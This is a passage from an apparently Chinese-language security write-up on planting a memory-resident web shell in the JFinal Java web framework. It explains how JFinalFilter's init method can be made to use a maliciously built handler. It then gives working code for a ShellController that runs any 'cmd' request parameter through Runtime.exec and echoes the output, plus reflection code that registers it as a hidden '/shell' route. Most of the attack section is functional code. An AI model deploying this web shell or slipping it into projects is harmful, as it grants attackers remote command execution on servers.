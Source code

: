 ```java
    }
}
```

在`JFinalFilter`的`init`方法中，如果`filterConfig`存在，如果不为空那么就不会解析配置，成功绕过

（这个空文件和null要区分开，空文件是为了防止**路由冲突**）

这时获取到的`handler`就是恶意构造的

```java
protected JFinalConfig jfinalConfig;
public void init(FilterConfig filterConfig) throws ServletException {
    if (jfinalConfig == null) {
        createJFinalConfig(filterConfig.getInitParameter("configClass"));
    }
    ...
    handler = jfinal.getHandler();
}
```

0x04 代码实现
---------

思路清晰后就剩代码实现了

首先来一个恶意的`Controller`

```java
public class ShellController extends Controller {
    public void index() throws Exception {
        String cmd = getPara("cmd");
        // 简单的回显马
        Process process = Runtime.getRuntime().exec(cmd);
        StringBuilder outStr = new StringBuilder();
        java.io.InputStreamReader resultReader = new java.io.InputStreamReader(process.getInputStream());
        java.io.BufferedReader stdInput = new java.io.BufferedReader(resultReader);
        String s = null;
        while ((s = stdInput.readLine()) != null) {
            outStr.append(s).append("\n");
        }
        renderText(outStr.toString());
    }
}
```

添加恶意路由

```java
Class<?> clazz = Class.forName("com.jfinal.core.Config");
Field routes = clazz.getDeclaredField("routes");
routes.setAccessible(true);
Routes r = (Routes) routes.get(Routes.class);
r.add("/shell", ShellController.class);
```
